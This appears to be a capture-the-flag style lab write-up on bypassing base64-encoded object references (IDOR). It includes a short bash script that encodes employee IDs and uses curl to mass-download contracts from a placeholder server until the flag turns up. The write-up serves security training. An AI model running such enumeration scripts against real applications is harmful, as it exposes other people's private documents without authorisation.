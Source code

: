 # Bypassing Encoded References

#### Try to download the contracts of the first 20 employee, one of which should contain the flag, which you can read with 'cat'. You can either calculate the 'contract' parameter value, or calculate the '.pdf' file name directly

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

In this exercise we must look for the flag in the Contracts page. When we download a contract we can see that we intercept a GET Request. The `contract` parameter has the value `MQ==`, which is the base64 encoded value for `1`.

Since this looks a pretty straight forward encoding method we can automatize the download process with a bash script:

{% code overflow="wrap" %}
```bash
#!/bin/bash

for i in {1..20}; do
    for hash in $(echo -n $i | base64 -w 0 | tr -d ' -'); do
        curl -sOJ -X GET "http://SERVER_IP:SERVER_PORT/download.php?contract=$hash"
    done
done
```
{% endcode %}

After execute the script let's list all the files downloaded with `ls -l`.

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can clearly see that one of the files stands out.

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And we got the flag!
